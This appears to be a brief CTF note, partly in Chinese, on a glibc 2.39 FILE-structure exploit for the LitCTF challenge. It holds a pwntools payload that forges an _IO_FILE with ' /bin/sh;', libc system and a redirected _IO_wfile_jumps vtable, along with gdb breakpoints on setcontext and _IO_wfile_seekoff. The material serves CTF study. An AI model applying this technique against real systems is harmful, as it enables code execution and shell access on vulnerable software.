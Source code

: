 ```c
```

2 

```python
libc.address = libc_base

fake_IO_addr = heap


# _IO_wfile_seekoff+98
# _IO_switch_to_wget_mode
pay = flat({
    0x00: ' /bin/sh;',
    0x18: libc.sym['system'],
    #0x20: fake_IO_addr, # 0x20 > 0x18
    0x20: libc.sym['_IO_2_1_stdout_'], # 0x20 > 0x18
    0x68: 0,                # rdi  #read fd
    0x70: fake_IO_addr,     # rsi  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')
```

‍

‍

## 调试断点点位

‍

```c


b *setcontext+61

#b *_IO_flush_all_lockp
#libc2.35

b *_IO_flush_all
# libc2.39

b *_IO_wfile_seekoff
b *_IO_switch_to_wget_mode

```

‍

‍

## link

‍

- litctf libc.2.39

‍
